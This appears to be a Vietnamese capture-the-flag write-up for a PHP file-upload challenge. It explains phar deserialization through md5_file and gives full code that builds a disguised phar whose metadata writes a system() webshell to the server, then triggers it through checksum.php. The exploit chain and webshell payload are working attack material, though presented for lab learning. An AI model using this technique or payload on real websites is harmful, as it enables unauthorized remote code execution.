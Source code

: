 Đề cho một trang web có chức năng upload file và filter extension 
```php
  $fileExtension = strtolower(pathinfo($fileName, PATHINFO_EXTENSION));
  $disallowedExtensions = ['php', 'php5', 'php6', 'php7', 'php8'];

```
Mình thử các các extension trong bài viết [này](https://book.hacktricks.xyz/pentesting-web/file-upload) nhưng đều không up được webshell lên. 

Sau một hồi đọc suorce thì thấy có file `logging.php` có hàm `__destruct()` với cả tên container của docker là `insecure-deserialization` thì mình nghĩ ngay đến lỗ hổng insecure-deserialization.
```php
<?php
class LogFile {
    public $filename;
    public $fcontents;

    public function writeToFile() {
        if (!empty($this->filename) && !empty($this->fcontents)) {
            file_put_contents($this->filename, $this->fcontents . PHP_EOL, FILE_APPEND);
        }
    }

    public function __destruct() {
        $this->writeToFile();
    }
}

?>
```
Nhưng mình tìm ở các file khác thì không có sử dụng hàm `unserialize` nên lúc này khá bí. Challenge để tên là `File checksum` sử dụng md5, mình thử search một hồi thì tìm thấy được bài viết [này](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization).
Bài viết đề cập đến lỗi của các hàm file_get_contents(), fopen(), file() or file_exists(), md5_file(), filemtime() hay filesize(), khi truyền tham số là một wrapper với protocol là `phar://file.phar` thì sẽ thực hiện đọc các dữ liệu của file phar đó. Và thực hiện unserialize phần dữ liệu `Meta-data` do phần này trong [file phar](https://www.php.net/manual/en/phar.fileformat.manifestfile.php) được lưu trữ dưới định dạng serialize.

Dựa trên lỗi này mình tận dụng class LogFile có hàm `writeToFile()` được gọi khi `__destruct()` để upload webshell với 2 tham số là tên file và nội dung. Trước hết là tạo file phar với phần meta-data là serialize class `Logfile` có biến `fcontents` là webshell.
Code gen file phar
```php
<?php

class LogFile {
    public $filename;
    public $fcontents;

    public function writeToFile() {
        if (!empty($this->filename) && !empty($this->fcontents)) {
            file_put_contents($this->filename, $this->fcontents . PHP_EOL, FILE_APPEND);
        }
    }

    public function __destruct() {
        $this->writeToFile();
    }
}

// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new LogFile();
$object->filename="uploads/shell.php";
$object->fcontents= "<?php system(\$_GET[\"cmd\"]); ?>";
$phar->setMetadata($object);
$phar->stopBuffering();
```
Upload file phar
![image](https://github.com/user-attachments/assets/f36b9a45-3475-44fe-8f04-02c786cf658b)

Sau khi có đường dẫn file phar thì chạy file `checksum.php` với tham số `?file=phar://uploads/672e6276bd4fe_test.phar` để tạo file webshell.

![image](https://github.com/user-attachments/assets/7afec38b-294b-4ac8-b8c1-11fbdcf6d6af)


Giờ chỉ việc chạy webshell đế lấy flag thôi
![image](https://github.com/user-attachments/assets/07320168-1239-4cea-abd6-077ba1618384)


